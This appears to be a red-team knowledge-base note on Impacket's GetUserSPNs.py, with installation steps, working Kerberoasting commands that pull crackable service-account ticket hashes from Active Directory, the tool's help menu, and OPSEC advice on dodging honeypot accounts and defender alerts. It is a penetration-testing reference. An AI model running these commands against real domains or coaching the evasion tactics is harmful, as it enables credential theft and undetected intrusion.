 ```yaml
---
aliases:
  - impacket-GetUserSPNs
tags:
  - tool
primary categories:
  - "[[Red Team]]"
  - "[[Penetration Test]]"
secondary categories:
  - "[[Credential Harvesting]]"
  - "[[Kerberoasting]]"
  - "[[Post-Exploitation]]"
  - "[[Active Directory]]"
type: Tool
---
```

# [[GetUserSPNs.py]]

***

## Overview

`GetUserSPNs.py`[^1] is a tool from the Impacket Python module collection that automates [kerberoasting](https://attack.mitre.org/techniques/T1558/003/) attacks against user accounts associated with [service principal names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) in [Active Directory (AD)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)[^2][^3]. If the service account password used to encrypt the returned [ticket-granting service (TGS)](https://csrc.nist.gov/glossary/term/tgs) ticket is sufficiently weak, an attacker can recover its plaintext password by cracking the TGS hash output from `GetUserSPNs.py`.

## Requirements

* [ ] Attacker is on a \*nix-like machine with access to the target AD network
* [ ] Attacker has valid AD credentials
* [ ] Target user(s) are vulnerable to kerberoasting
	* [ ] Target user object(s) have a non-null  `servicePrincipalName` attribute

## Installation/Compilation

Before installing `GetUserSPNs.py`, ensure Python is installed:
```
# Debian/Ubuntu
sudo apt install python3

# Fedora
sudo dnf install python3
```

The easiest way to install `GetUserSPNs.py` is by installing the Impacket library via `pip`:
```
pip install impacket
```

Alternatively, clone the Impacket repository and install it locally:
```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

On Kali Linux[^4], you can install the `impacket-scripts`[^5] package. This makes the tools accessible in your `$PATH`, prefixed with `impacket-`:
```
sudo apt install impacket-scripts

impacket-GetUserSPNs -h
```

## Usage

Kerberoast all vulnerable users in a domain (you will be prompted for a password):
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> <domain.full>/<user>
```

Kerberoast all vulnerable users and dump the output to a file:
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

After retrieving a TGS ticket, you can attempt to crack the service account password using Hashcat[^6] or John the Ripper[^7].

## Operational Security (OPSEC)

Requesting TGS tickets for every SPN in a domain will likely raise alerts, especially if one or more SPNs are positioned as [honeypots](https://csrc.nist.gov/glossary/term/honeypot), accounts intentionally configured to detect kerberoasting attempts[^8]. These honeypot SPNs often appear legitimate but are closely monitored.

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
ServicePrincipalName          Name         MemberOf  PasswordLastSet            LastLogon  Delegation
----------------------------  -----------  --------  -------------------------  ---------  ---------
MSSQLSvc/sql.domain.com:1433  mssql_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
HoneySvc/fake.domain.com      honey_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
```

If possible, ensure the requesting account appears plausible to a defender. For example, a sales employee requesting a TGS for a Microsoft SQL Server[^9] service is suspicious; using an IT or data steward account would appear more legitimate.

Additionally, avoid requesting all SPNs in bulk. Multiple SPN requests in a short window will appear as anomalous on a defender's radar, possibly leading to detection[^10]. Instead, identify individual accounts vulnerable to kerberoasting using BloodHound[^11] or a similar tool, then request TGS tickets for a single target:
```
GetUserSPNs.py -request-user <target-user> -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

```ad-todo
Add discussion about encryption types, the `(servicePrincipalName=*)` LDAP query, and ticket request parameters.
```

## Under-the-Hood

```ad-todo
Reverse engineer `GetUserSPNs.py` source code, analyze ticket exchanges in [Wireshark](https://www.wireshark.org/), and document detailed function flow.
```

## Help Menu

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-no-preauth NO_PREAUTH] [-stealth] [-usersfile USERSFILE] [-request] [-request-user username] [-save] [-outputfile OUTPUTFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain[/username[:password]]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting across trusts.
  -no-preauth NO_PREAUTH
                        account that does not require preauth, to obtain Service Ticket through the AS
  -stealth              Removes the (servicePrincipalName=*) filter from the LDAP query for added stealth. May cause huge memory consumption / errors on large domains.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format. Auto selects -request
  -ts                   Adds timestamp to every logging output.
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter. Ignoredif -target-domain is specified.
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
```

***

## Resources

| Hyperlink                                                                                               | Info                                   |
| ------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| [GetUserSPNs.py, Fortra](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)        | GitHub repository for `GetUserSPNs.pu` |
| [Steal or Forge Kerberos Tickets: Kerberoasting, MITRE](https://attack.mitre.org/techniques/T1558/003/) | MITRE ATT&CK entry for "Kerberoasting" |

[^1]: GetUserSPNs.py, Fortra, https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
[^2]: Attacking Microsoft Kerberos Kicking the Guard Dog of Hades, Tim Medin, https://youtu.be/PUyhlN-E5MU
[^3]: Kerberoasting Revisited, Will Schroeder, https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
[^4]: Kali Linux, Offsec, https://www.kali.org/
[^5]: impacket-scripts, Kali Linux, https://www.kali.org/tools/impacket-scripts/ 
[^6]: Hashcat, Hashcat, https://hashcat.net/hashcat/
[^7]: John the Ripper, Openwall, https://www.openwall.com/john/ 
[^8]: Detecting Kerberoasting Activity Part 2 – Creating a Kerberoast Service Account Honeypot, Sean Metcalf, https://adsecurity.org/?p=3513
[^9]: Microsoft SQL Server, Microsoft, https://www.microsoft.com/en-us/sql-server
[^10]: Windows Event ID 4769 Kerberos Service Ticket Request, Splunk, https://research.splunk.com/endpoint/eb3e6702-8936-11ec-98fe-acde48001122/
[^11]: BloodHound, SpecterOps, https://github.com/SpecterOps/BloodHound

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
